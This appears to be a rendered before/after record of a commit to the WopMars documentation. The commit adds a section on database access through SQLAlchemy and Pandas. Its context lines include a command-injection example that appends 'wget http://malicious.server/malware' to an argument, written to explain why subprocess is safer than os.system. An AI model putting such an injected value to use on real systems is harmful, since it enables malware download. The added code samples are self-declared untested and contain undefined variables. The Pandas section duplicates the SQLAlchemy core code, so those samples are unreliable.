

Before and after one commit to aitgon/wopmars, a Sphinx documentation site: the page built from docs/content/wrapper.rst, in a window 1280 px wide and 1400 px high, scrolled down 10040 px. Shown: the whole window, without its empty margins (388-1141 px from the left). Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 10446 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
DOC Added wrapper section about how to read/write to the database

```diff
--- a/docs/content/developer.rst
+++ b/docs/content/developer.rst
@@ -1,4 +1,4 @@
-Contributing to WoPMaRs
+Contributing to WopMars
 ======================
 
 This manual is dedicated to the developers who want to improve **WopMars** by adding new features or correcting bugs.
--- a/docs/content/wrapper.rst
+++ b/docs/content/wrapper.rst
@@ -316,7 +316,7 @@ In your learning of Python, you may have encountered the famous ``os.system("com
             def list_extension(ext):
                 os.system("ls -1 *." + str(ext))
 
-        This function is supposed to list all the files of a given extension in the directory. But if, instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!
+        This function is supposed to list all the files of a given extension in the directory. But if,  instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!
 
         Now, with ``subprocess.Popen``, you can't do such a thing because spaces are not allowed inside arguments:
 
@@ -327,13 +327,83 @@ In your learning of Python, you may have encountered the famous ``os.system("com
 
     - ``subprocess`` open a Pipe between the python process and the subprocess whereas ``os.system`` calls a subshell independant of the first. This difference makes the communication between the subprocess and your python code far more easy with ``subprocess`` instead of ``os.system`` in which it is nearly impossible
 
+Reading/writing to the database
+...............................
 
+Reading and writing to the database has to be carried out through the WopMars session. The WopMars session implements a lock system to prevent database inconsistencies. There are three implemented methods to read/write to the database with the wopmars session.
 
+- SQLAlchemy ORM
+- SQLAlchemy core
+- Pandas read_sql and to_sql
 
+SQLAlchemy ORM
+--------------------
 
+The SQLAlchemy ORM is very simple but it is also quit slow after 100 objects. Inside the `run` method of the tool wrapper, we will can take a WopMars session simply with `self.session` and then call SQLAlchemy ORM methods on it.
 
+        .. code-block:: python
 
+            # This code is for illustration purpose and has not been tested
+            # inside the run of a tool wrapper MyWrapper
+            def run(self):
+                session = self.session()
+                my_input_model = self.output_table(MyWrapper.__input_table1)
+                query_dic = {'col1': value_1, 'col2': value_2}
+                try: # check if query_dic exists
+                    session.query(my_input_model).filter_by(**query_dic).one()
+                except: # if not add and later commit
+                    snp_instance = snp_model(**snp_dic)
+                    session.add(snp_instance)
+                session.commit()
 
+SQLAlchemy core
+--------------------
 
+Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.
 
-packager Toolwrapper avec models
+        .. code-block:: python
+
+            # This code is for illustration purpose and has not been tested
+            # inside the run of a tool wrapper MyWrapper
+            def run(self):
+                session = self.session()
+                engine = session._WopMarsSession__session.bind
+                conn = engine.connect()
+                #
+                my_input_model = self.output_table(MyWrapper.__input_table1)
+                #
+                # retrieve all objects in database
+                sql = select([my_input_model.col1])
+                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
+                # check if new col1:val1 not already in db
+                if not {'col1': val1} in my_input_model_col1_db:
+                    # add to list of value dics
+                    my_input_model_new_objects=[{'col1': val1}]
+                # bunch insert list of value dics
+                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])
+
+Pandas read_sql and to_sql
+--------------------
+
+Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.
+
+        .. code-block:: python
+
+            # This code is for illustration purpose and has not been tested
+            # inside the run of a tool wrapper MyWrapper
+            def run(self):
+                session = self.session()
+                engine = session._WopMarsSession__session.bind
+                conn = engine.connect()
+                #
+                my_input_model = self.output_table(MyWrapper.__input_table1)
+                #
+                # retrieve all objects in database
+                sql = select([my_input_model.col1])
+                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
+                # check if new col1:val1 not already in db
+                if not {'col1': val1} in my_input_model_col1_db:
+                    # add to list of value dics
+                    my_input_model_new_objects=[{'col1': val1}]
+                # bunch insert list of value dics
+                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])
```
Also changed, not shown: 1 other file.
